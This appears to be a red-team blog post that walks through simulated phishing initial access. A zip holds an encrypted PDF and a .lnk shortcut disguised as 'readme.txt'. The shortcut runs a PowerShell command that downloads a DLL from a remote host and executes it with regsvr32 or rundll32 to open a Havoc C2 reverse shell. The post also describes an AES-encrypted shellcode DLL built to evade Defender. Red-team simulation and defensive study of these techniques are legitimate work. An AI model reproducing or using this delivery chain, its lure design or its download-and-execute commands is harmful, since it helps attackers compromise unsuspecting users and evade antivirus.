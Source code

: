 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES. 
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 

Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be performed with the usual suspect IEX Download String function


Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll 
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`



## 4) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams

